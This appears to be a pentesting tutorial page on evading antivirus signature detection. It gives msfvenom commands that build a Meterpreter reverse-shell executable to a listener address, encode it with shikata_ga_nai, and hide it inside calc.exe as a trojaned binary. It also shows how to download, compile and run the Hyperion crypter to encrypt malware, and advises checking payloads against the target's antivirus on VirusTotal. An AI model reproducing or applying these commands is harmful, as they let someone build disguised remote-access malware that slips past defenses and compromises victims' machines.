 # Bypassing Anti-Virus



So first of all, what is a antivirus program and how does it work?

### How does it work? <a id="how-does-it-work"></a>

Antivirus normally uses blacklisting as their methodology. They have a huge database full of signatures for different known malware. Then the antivirus just scans the disk and search for any of those signatures.

### How do we bypass it? <a id="how-do-we-bypass-it"></a>

So since there are many different antivirus and they all have different databases of signatures it is important for us to know what antivirus our target uses. Once we know that we can use virtustotal.com to upload our malicious files to see if that specific antivirus finds it.

So what we need to do is to change the malware enough so that the signature changes and the antivirus is not able to identify the file as malicious.

There are a few different techniques for doing this.

#### Encoding <a id="encoding"></a>

We can encode our malware in different ways. This can be done with msfvenom. Notice how we set the `-e` flag here, and then use the `shikata_ga_nai` encoding. This is not that effective since antivirus-vendors have access to metasploit as well.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

#### Embed in non-malicious file <a id="embed-in-non-malicious-file"></a>

Another way is to embed our payload in a non-malicious file.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o
bad_calc.exe
```

#### Encrypting the malware <a id="encrypting-the-malware"></a>

In order to obfuscate our malware we can encrypt it, and thus radically changing the signature. One much mentioned tool for doing that is Hyperion. It is a windows binary but we can compile and run it from linux as well. This worked for me \(october 2016\)

```text
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
```

In Kali you have hyperion 1 included. However for it to work you have to run it from it's correct path. So go to `/usr/share/veil-evasion/tools/hyperion`

And run it like this

```text
wine hyperion /path/to/file.exe encryptedfile.exe
```

